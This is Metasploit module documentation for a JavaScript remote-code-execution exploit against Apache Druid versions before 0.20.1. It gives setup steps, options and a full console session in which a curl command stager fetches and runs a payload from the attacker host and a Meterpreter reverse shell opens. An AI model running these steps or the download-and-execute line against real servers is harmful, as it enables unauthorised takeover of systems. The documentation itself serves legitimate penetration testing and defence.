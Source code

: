 ## Vulnerable Application

Apache Druid versions prior to `v0.20.1`

### Description

Apache Druid includes the ability to execute user-provided JavaScript code embedded in
various types of requests; however, that feature is disabled by default.
          
In Druid versions prior to `0.20.1`, an authenticated user can send a specially-crafted request
that both enables the JavaScript code-execution feature and executes the supplied code all
at once, allowing for code execution on the server with the privileges of the Druid Server process.
More critically, authentication is not enabled in Apache Druid by default.

It has been fixed in Apache Druid 0.20.1

This module has been tested successfully against bebelow:

Apache Druid 0.15.1 Debian 9.11 (Linux 3.10.0-957.21.3.el7.x86_64)

Apache Druid 0.16.0-iap8  Ubuntu 16.04 (Linux 3.10.0-957.27.2.el7.x86_64)

Apache Druid 0.17.1 CentOS 8.2.2004 (Core) (Linux 4.18.0-193.28.1.el8_2.x86_64)

Apache Druid 0.18.0-iap3 Debian 9.12 (Linux 4.19.0-0.bpo.8-amd64)

Apache Druid 0.19.0-iap7 Ubuntu 18.04 (Linux 4.14.193-149.317.amzn2.x86_64)

Apache Druid 0.20.0-iap4.1 Ubuntu 18.04 (Linux 4.19.112+)

Apache Druid 0.21.0-iap3 CentOS 7.9.2009 (Linux 3.10.0-1160.15.2.el7.x86_64)

### Setup

Just use docker,but any other version you need to find by yourself

docker pull fokkodriesprong/docker-druid
docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_druid_js_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `set lport/srvport <ip>` if necessary
1. Do: `run`
1. You should get a shell.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Options

### CHECKCMD

You can set a customize command to check and get command exec result respond.
Default is "id"


## Scenarios

### Apache Druid 0.20.0-iap4.1 on SaltStack Salt 3002.2 on Ubuntu 18.04 (Linux 4.19.112+)

```
msf6 > use exploit/linux/http/apache_druid_js_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_druid_js_rce) > set rhosts 10.100.70.2
rhosts => 10.100.70.2
msf6 exploit(linux/http/apache_druid_js_rce) > set rport 8888
rport => 8888
msf6 exploit(linux/http/apache_druid_js_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CHECKCMD  id               yes       The command to execute as checking vulnerability
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.100.70.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8888             yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   VHOST                      no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.70.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)


msf6 exploit(linux/http/apache_druid_js_rce) > run

[*] Started reverse TCP handler on 10.100.70.1:4444
[*] Using URL: http://0.0.0.0:8080/NCId0EEi0G9
[*] Local IP: http://10.100.70.1:8080/NCId0EEi0G9
[*] Generated command stager: ["curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU"]
[*] Executing command /bin/bash`@~-c`@~curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU ......
[*] Client 10.100.70.2 (curl/7.58.0) requested /NCId0EEi0G9
[*] Sending payload to 10.100.70.2 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 10.100.70.2
[*] Meterpreter session 2 opened (10.100.70.1:4444 -> 10.100.70.2:59996) at 2021-03-31 10:56:03 +0800
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 10.100.70.2
OS           : Ubuntu 18.04 (Linux 4.19.112+)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
